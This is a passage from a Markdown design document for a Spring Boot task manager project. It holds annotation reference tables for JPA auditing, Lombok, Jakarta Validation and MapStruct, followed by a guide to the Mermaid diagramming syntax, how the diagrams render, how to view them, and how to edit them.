| `@EntityListeners(AuditingEntityListener.class)` | Enables JPA auditing lifecycle events |
| `@CreatedDate` | Auto-filled on insert |
| `@LastModifiedDate` | Auto-filled on every save |
| `@EnableJpaAuditing` | Activates auditing globally |

### Lombok

| Annotation | Generates |
|---|---|
| `@Getter` / `@Setter` | Getter and setter methods for all fields |
| `@NoArgsConstructor` | Empty constructor |
| `@AllArgsConstructor` | Constructor with all fields |
| `@Builder` | Fluent builder: `Task.builder().header("x").build()` |
| `@Builder.Default` | Uses field initialiser as builder default |
| `@Data` | `@Getter` + `@Setter` + `@ToString` + `@EqualsAndHashCode` |
| `@RequiredArgsConstructor` | Constructor for `final` fields only |

### Jakarta Validation

| Annotation | Purpose |
|---|---|
| `@NotBlank` | Not null, not empty, not whitespace only |
| `@NotNull` | Not null (but can be empty) |
| `@Size(min, max)` | String length constraint |

### MapStruct

| Annotation | Purpose |
|---|---|
| `@Mapper(componentModel = "spring")` | Generates a Spring `@Component` |
| `@Mapping(source, target)` | Map differently-named fields |
| `@Mapping(target, expression)` | Compute a field via Java expression |
| `@Mapping(target, ignore)` | Skip mapping this field |

---

## 21. About the Diagrams — Mermaid

All the design diagrams in this document are written in **[Mermaid](https://mermaid.js.org/)** — a JavaScript-based diagramming and charting language that renders diagrams from Markdown-style text definitions.

### 21.1 What Is Mermaid?

Mermaid is an open-source tool that lets you create diagrams and visualisations using a simple, human-readable text syntax embedded directly inside Markdown files. Instead of using a graphical tool (like Visio, draw.io, or Lucidchart) and exporting an image, you write a short text description and the diagram is **rendered automatically** by compatible viewers.

**Key characteristics:**

| Aspect | Detail |
|---|---|
| **Type** | Text-to-diagram rendering engine |
| **Language** | Declarative, domain-specific syntax (not a general-purpose programming language) |
| **Rendering** | Client-side JavaScript — the text is parsed and rendered into SVG in the browser |
| **Created by** | Knut Sveidqvist (first released ~2014) |
| **License** | MIT (fully open-source) |
| **Website** | [https://mermaid.js.org](https://mermaid.js.org/) |
| **Live Editor** | [https://mermaid.live](https://mermaid.live/) |

### 21.2 Why Mermaid for a Design Document?

| Benefit | Explanation |
|---|---|
| **Version-controlled** | Diagrams are plain text, so they live in Git alongside the code. Every change shows up as a readable diff. |
| **No external tools** | No need to install a diagramming application or manage exported image files. |
| **Always in sync** | When you refactor the code, updating the diagram is a text edit in the same PR. |
| **GitHub native** | GitHub renders Mermaid in Markdown files, issues, pull requests, and wikis out of the box (since 2022). |
| **IDE support** | VS Code, IntelliJ IDEA (with Markdown plugins), and JetBrains IDEs render Mermaid natively or with a plugin. |

### 21.3 How It Works

In a Markdown file, you embed Mermaid code inside a fenced code block with the language identifier `mermaid`:

````markdown

````

When a compatible renderer (GitHub, VS Code, IntelliJ, etc.) encounters this block, it:

1. **Parses** the text using the Mermaid grammar.
2. **Generates** an SVG (Scalable Vector Graphics) image.
3. **Renders** it inline in the document where the code block appears.

If the viewer **does not** support Mermaid, the raw text is shown as a code block — still readable, but not graphical.

### 21.4 Diagram Types Used in This Document

Mermaid supports many diagram types. Here are the ones used in this design document:

#### Flowcharts / Graphs (`graph TB` / `graph LR`)

Used for: architecture diagrams, package structure, control flow.

```
graph TB          ← Top-to-Bottom direction
graph LR          ← Left-to-Right direction
```

**Syntax highlights:**



| Syntax | Meaning |
|---|---|
| `-->` | Solid arrow (dependency / flow) |
| `-.->` | Dashed arrow (optional / test-only) |
| `-- "label" -->` | Labelled edge |
| `subgraph Name["Title"]` | Groups nodes visually |
| `style NodeId fill:#color` | Inline CSS styling for a node |

#### Sequence Diagrams (`sequenceDiagram`)

Used for: request lifecycle / end-to-end walkthrough.



| Syntax | Meaning |
|---|---|
| `participant X as Label` | Declares a participant with a display name |
| `->>` | Synchronous message (solid arrow) |
| `-->>` | Reply / return (dashed arrow) |
| `Note over X,Y: text` | Annotation note spanning participants |
| `rect rgb(r,g,b)` | Background highlight for a group of messages |
| `alt / else / end` | Conditional branching |

#### Class Diagrams (`classDiagram`)

Used for: entity/DTO field mapping, showing class structure.



| Syntax | Meaning |
|---|---|
| `+` | Public visibility |
| `-` | Private visibility |
| `#` | Protected visibility |
| `ClassA --> ClassB` | Association |
| `ClassA ..|> InterfaceB` | Implementation (implements) |
| `<<interface>>` | Stereotypes |

### 21.5 Diagram Inventory in This Document

This document contains the following **10 Mermaid diagrams**:

| # | Section | Diagram Type | What It Shows |
|---|---|---|---|
| 1 | §1 Project Overview | `graph TB` | System context — all external components and their connections |
| 2 | §2 Architecture | `graph TB` | Layered architecture (Controller → Service → Repository) |
| 3 | §2 Package Structure | `graph LR` | Package tree visualised as a directed graph |
| 4 | §5 DTOs | `classDiagram` | TaskRequestDTO vs TaskResponseDTO field comparison |
| 5 | §6 Mapper | `graph LR` | MapStruct mapping flow from DTO ↔ Entity |
| 6 | §8 Specifications | `graph TD` | Dynamic query construction with JPA Specifications |
| 7 | §12 Exception Handling | `graph TD` | Exception hierarchy and handler routing |
| 8 | §14 Flyway | `graph LR` | Migration version chain (V1 → V2 → V3) |
| 9 | §18 Request Lifecycle | `sequenceDiagram` | Full end-to-end POST request walkthrough |
| 10 | §18 Error Flow | `sequenceDiagram` | Error path: duplicate task exception flow |

### 21.6 How to View the Diagrams

| Platform | Support |
|---|---|
| **GitHub** (web) | ✅ Native — renders automatically in `.md` files, issues, PRs, wikis |
| **VS Code** | ✅ Built-in Markdown preview renders Mermaid. For enhanced support install the *Markdown Preview Mermaid Support* extension. |
| **IntelliJ IDEA / JetBrains IDEs** | ✅ Built-in Markdown plugin renders Mermaid (2023.2+). For older versions, install the *Mermaid* plugin. |
| **Mermaid Live Editor** | ✅ Paste any diagram code at [mermaid.live](https://mermaid.live/) for instant rendering and export. |
| **GitLab** | ✅ Native support in Markdown files |
| **Notion** | ✅ Native support via `/mermaid` block |
| **Plain text viewer** | ⚠️ Shows raw text — still readable but not graphical |

### 21.7 Editing Diagrams

To modify a diagram:

1. **Locate** the ` ```mermaid ` code block in this Markdown file.
2. **Edit** the text inside — the syntax is intuitive and self-documenting.
3. **Preview** — Use your IDE's Markdown preview, or paste the block into [mermaid.live](https://mermaid.live/) for instant feedback.
4. **Commit** — The diagram change is a simple text diff, reviewable in any pull request.

**Example workflow — adding a new node to the architecture diagram:**

```diff
  graph TB
      Client --> Controller
      Controller --> Service
+     Service --> CacheLayer["Cache Layer"]
+     CacheLayer --> Repository
-     Service --> Repository
      Repository --> Database
```

### 21.8 Mermaid Syntax Quick Reference

```
%%  This is a Mermaid comment (not rendered)

%% ─── FLOWCHART ───
graph TD                            %% TD = Top-Down, LR = Left-Right
    A["Label"] --> B["Label"]       %% solid arrow
    A -. "text" .-> C              %% dashed arrow with label
    subgraph Title                  %% group nodes
        D --> E
    end
    style A fill:#6DB33F,color:#fff %% inline CSS

%% ─── SEQUENCE DIAGRAM ───
sequenceDiagram
    participant A as Alice
    A->>B: Message                  %% synchronous
    B-->>A: Reply                   %% async / return
    Note over A,B: Annotation
    rect rgb(200,220,255)           %% highlight block
        A->>B: Inside highlight
    end

%% ─── CLASS DIAGRAM ───
classDiagram
    class MyClass {
        -String name                %% private field
        +getName() String           %% public method
    }
    MyClass --> OtherClass : uses
```

### 21.9 Further Reading

- **Official Docs:** [https://mermaid.js.org/intro/](https://mermaid.js.org/intro/)
- **Syntax Reference:** [https://mermaid.js.org/syntax/flowchart.html](https://mermaid.js.org/syntax/flowchart.html)
- **Live Editor:** [https://mermaid.live/](https://mermaid.live/)
- **GitHub Blog — Mermaid Support:** [Include diagrams in your Markdown files with Mermaid](https://github.blog/2022-02-14-include-diagrams-in-your-markdown-files-with-mermaid/)
- **VS Code Extension:** [Markdown Preview Mermaid Support](https://marketplace.visualstudio.com/items?itemName=bierner.markdown-mermaid)

---

*This document was generated from the actual source code of the TaskManagerApplication project.*

